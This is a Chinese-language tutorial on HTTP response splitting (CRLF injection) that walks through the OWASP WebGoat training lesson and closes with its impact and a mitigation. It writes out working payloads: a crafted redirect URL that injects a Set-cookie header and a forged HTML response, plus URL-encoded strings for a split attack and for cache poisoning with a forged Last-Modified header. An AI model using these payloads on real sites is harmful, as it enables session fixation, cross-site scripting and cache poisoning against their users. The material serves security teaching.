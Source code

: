 ## HTTP响应拆分
HTTP响应拆分漏洞，也叫`CRLF`注入攻击。利用`CR(%0d)`与`LF(%0a)`等特殊字符串进行攻击。HTTP头由很多被`CRLF`组合分离的行构成，每行的结构都是“键：值”。如果用户输入的值部分注入了`CRLF`字符，它有可能改变的HTTP报头结构。

### 使用场景
设置`Location`情况是web应用程序重定向。

### 漏洞分析
一般网站会在HTTP头中用`Location: http://example.com`这种方式来进行302跳转，所以我们能控制的内容就是`Location:`后面的XXX某个网址。

所以一个正常的302跳转包是这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:23:57 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
```
如果在HTTP头中`Location`它的值变为`http://example.com/WebGoat/attack%0aSet-cookie:PHPSESSID%3Dexample.com`的时候，HTTP返回的头信息会变成下面这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:25:17 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
Set-cookie: PHPSESSID=example.com
```
这样就成功的在http头里面注入了新的key/value。
这样也就可以随意的执行xss攻击了。

所以，可以这样构造一个url请求。
```http
http://example.com/WebGoat/attack%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aSet-cookie:PHPSESSID%3Dexample.com%0aX-XSS-Protection:%200%0aContent-Length:%2049%0a%0a<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```

### WebGoat的HTTP Splitting
课程是两个步骤：
第一步，执行拆分攻击。
第二步，缓存污染，要求篡改HTTP头中的`Last‐Modified`字段。
#### 工具
- [WebScarab](https://www.owasp.org/index.php/WebScarab)
- [PCE](http://yehg.net/encoding) - PHP Charset Encoder/String Encrypter

需要注意，以下操作过程仅适用于`Linux`环境。如果您正在使用`Windows`，请作相关的修改。`Windows`系统中同时使用`CR`和`LF`两个字符表示新行。`Linux`用户只需要使用`LF`，`Mac OS`
用户请使用`CR`。所以如果您正在使用`Windows` 系统，请将以下操作过程中所有的`%0a` 需要
替换成`%0d%0a`（`Windows`）或`%0d`（`Mac OS`）。

第一步拆分攻击，使用`PCE`对下面的代码进行`URL`编码
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 47


<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
最后得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2047%0A%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交后得到hacked Q6E79D页面信息。然后点击浏览器后退。
第二步缓存污染，修改Last‐Modified字段：
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 47

<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2047%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交，完成本次课程的所有操作。

### 危害
攻击者可能注入自定义HTTP头。例如，攻击者可以注入会话cookie或HTML代码。这可能会进行类似的XSS（跨站点脚本）或会话固定漏洞。

### 解决方案：
HTTP拆分攻击是在web应用程序做跳转的时候设置`Location:`的值时，URI中的参数未做过滤。
所以限制用户输入的CR(%0d)和LF(%0a)，或者对CR(%0d)和LF(%0a)字符正确编码后再输出，以防止注入自定义HTTP头。
